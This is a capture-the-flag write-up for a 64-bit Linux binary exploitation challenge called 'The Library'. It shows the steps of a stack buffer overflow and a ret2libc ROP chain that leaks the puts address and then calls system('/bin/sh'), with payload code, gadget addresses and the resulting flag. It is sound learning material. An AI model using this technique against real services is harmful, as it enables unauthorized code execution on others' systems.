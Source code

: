 # The Library

- Genre Pwn  

By examining the binary I found the followings  
```sh
file the-library
the-library: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=3067a5291814bef337dafc695eee28f371370eae, not stripped
checksec the-library
[*] 'the-library'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```
It was 64 bit binary and NX was enabled. So shellcode injection was not the right path.  
```sh
ldd the-library
	linux-vdso.so.1 (0x00007ffd6a1c8000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007feee0cfe000)
	/lib64/ld-linux-x86-64.so.2 (0x00007feee0ede000)
ldd the-library
	linux-vdso.so.1 (0x00007ffe4053c000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fae40077000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fae40257000)
ldd the-library
	linux-vdso.so.1 (0x00007ffeeb549000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffb33279000)
	/lib64/ld-linux-x86-64.so.2 (0x00007ffb33459000)
```
And as the ldd showed above, ASLR was enabled.  
I ran this binary first to see what it did.
```sh
./the-library 
Welcome to the library... What's your name?
TEST
Hello there: 
TEST

```
It accepted a user input and echoed back the name.  
This time I ran this with gdb to see more in depth.  

![image](https://user-images.githubusercontent.com/53568647/85946644-1f98ff00-b989-11ea-8dbc-da6bc5fcefba.png)

It crached when I input many characters as an input, so there was a possibility to cause buffer overflow to run shell.  
I sent a crafted input to find out the right buffer size. I used pattern_create and pattern_offset of gdb-peda.  

![image](https://user-images.githubusercontent.com/53568647/85946645-21fb5900-b989-11ea-94ed-5fdc73a7792e.png)

size of junk: 24 characters  

Unlike other easy challenges, there was no straight-to-win function in the binary to invoke shell. So my strategy was Return to Libc and calling system function.  
Since I did not know which address libc would be located at, I created a ROP chain to leak the address of puts.  

Since I found the address of main function, 0x0x400637, all I needed to find was ROP gadget. I searched for one pop and then return in the binary.  
```sh
rp -r 1 -f the-library | grep rdi
0x0040079f: add byte [rbp+rdi*8-0x01], bh ; call qword [rax+rax-0x02440000] ;  (1 found)
0x00400733: pop rdi ; ret  ;  (1 found)

# same results can be obtained by

r2 the-library
[0x00400550]> /R pop rdi
  0x00400733                 5f  pop rdi
  0x00400734                 c3  ret
```
gadget: 0x400733  

I got all the information required for the exploitation. Then I created exploit code next.  

## The first BoF
The first step was to leak the puts address by using ROP gadget. This main focus was placed to obtain the base address of libc.   
To do this, I used the gadget I just found in the previous step, and place the payload in this order, Gadget > puts GOT address > puts PLT address > main function.  
```sh
padding = 24
payload = b'A' * padding
payload += p64(popret)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main_address)
```
It printed out the address of puts then returned to main function for another BoF.  
Using this leaked address I could calcurate the base of libc, puts_address - offset of puts.

## The second BoF
I tried to use system function to call /bin/sh. To do this, I needed an address of /bin/sh in the libc.  
```sh
strings -a -tx libc.so.6| grep /bin/sh
 1b3e9a /bin/sh
```
or either in my python exploit code
```python
sh_offset = next(libc.search(b'/bin/sh\x00'))
```
The address of system could be calcurated by adding the offset to the base of libc.  
The payload would be Gadget > address of /bin/sh > address of system.  
I made a huge mistake here, not considering the alignment of the stack. In x64 archtecture, it requires the stack to be 16 bytes aligned before any call instruction. That said, the number of 'ret' needed to be odd. So I added additional 'ret' on top of this payload. 'ret' could be found in the gadget, address of gadget + 1.    
```sh
payload = b'A' * padding
payload += p64(popret+1)
payload += p64(popret)
payload += p64(sh_address)
payload += p64(sys_address)
```
Then assembled all together to get the flag.  

## Exploit
I wrote a python exploit code and successfully spawned a shell then got a flag.    

![image](https://user-images.githubusercontent.com/53568647/85946651-26c00d00-b989-11ea-9922-98763d020cbd.png)

flag{jump_1nt0_th3_l1brary}
